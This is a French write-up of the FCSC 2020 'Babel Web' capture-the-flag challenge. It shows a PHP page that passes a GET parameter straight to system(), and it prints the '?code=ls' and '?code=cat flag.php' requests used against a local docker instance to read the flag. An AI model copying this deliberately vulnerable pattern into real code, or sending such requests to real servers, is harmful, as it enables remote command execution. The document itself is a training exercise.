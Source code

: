 # [Babel Web](https://hackropole.fr/fr/challenges/web/fcsc2020-web-babel-web/)

## Énoncé

On vous demande d’auditer ce site en cours de construction à la recherche d’un flag.

## Solution

On commence par se rendre sur le site après avoir lancé le docker.

On tombe sur une page ne comportant qu'un peu de texte.

On va donc regarder tout de suite le code source de la page.

```html
<html>
	<head>
		<title>Bienvenue à Babel Web!</title>
	</head>	
	<body>
		<h1>Bienvenue à Babel Web!</h1>
		La page est en cours de développement, merci de revenir plus tard.
		<!-- <a href="?source=1">source</a> -->
	</body>
</html>
```

On remarque un commentaire avec une route ```?source=1```.

On va donc se rendre sur cette route.

On tombe sur le code source de la page. Il s'agit d'un code PHP.

```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```

Je ne connais pas du tout PHP, mais je vois que la route ```?code=``` existe et fait un appel à la fonction ```system()```. Par mimétisme avec la méthode python ```os.system()```, je me dis que cette fonction doit exécuter une commande système.

On tente donc de passer une commande système en paramètre de la route ```?code=```.

```bash
http://localhost:8000/?code=ls
```

On obtient le résultat suivant :

```html
flag.php
index.php
```

On voit qu'il y a un fichier ```flag.php```. On va donc essayer de lire son contenu.

```bash
http://localhost:8000/?code=cat%20flag.php
```

On obtient une page vide...

Mais en regardant le code source de la page, on voit le flag. (Petit piège pour les gens qui vont vite... Sympa je me suis fait avoir aussi...)


## Flag

Le flag est dans le code source de la page ```flag.php``` que l'on obtient avec la requête ```http://localhost:8000/?code=cat%20flag.php```.